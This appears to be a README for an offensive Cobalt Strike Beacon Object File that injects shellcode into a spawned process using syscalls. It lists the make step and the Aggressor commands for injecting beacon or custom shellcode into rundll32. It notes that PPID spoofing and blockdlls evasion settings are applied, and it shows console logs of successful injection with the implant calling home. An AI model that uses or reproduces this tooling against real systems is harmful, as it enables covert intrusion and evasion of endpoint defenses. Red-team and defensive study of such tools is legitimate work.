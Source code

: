 ## Spawn with Syscalls Shellcode Injection BOF (64-bit only)

Same syscalls injection process as SyscallsInject but uses `BeaconSpawnTemporaryProcess` to create the target process. 

## Compile

```
make
```

## Usage

Aggressor script included with the following commands:
- `syscalls_spawn listener_name` - Injects shellcode for beacon into a spawned process. 
- `syscalls_shspawn path_to_bin` - Injects custom shellcode into a spawned process.

> NOTE: As we're using the beacon API for process spawn, we're not using syscalls, so bear that in mind. Spawning in this way does give us the spawnto, blockdlls and ppid spoofing settings applied though.  

### Custom shellcode
```
beacon> syscalls_shspawn C:\Users\user\Desktop\beacon64.bin
[*] Syscalls Spawn and Shellcode Injection BOF (@ajpc500)
[*] Reading shellcode from: C:\Users\user\Desktop\beacon64.bin
[+] host called home, sent: 266531 bytes
[+] received output:
Using spawnto process: C:\WINDOWS\system32\rundll32.exe
[+] received output:
Spawned Process with PID: 9968
[+] received output:
Shellcode injection completed successfully!
```

### Beacon shellcode
```
beacon> syscalls_spawn http
[*] Syscalls Spawn and Shellcode Injection BOF (@ajpc500)
[*] Using http listener for beacon shellcode generation.
[+] host called home, sent: 266531 bytes
[+] received output:
Using spawnto process: C:\WINDOWS\system32\rundll32.exe
[+] received output:
Spawned Process with PID: 9768
[+] received output:
Shellcode injection completed successfully!
```
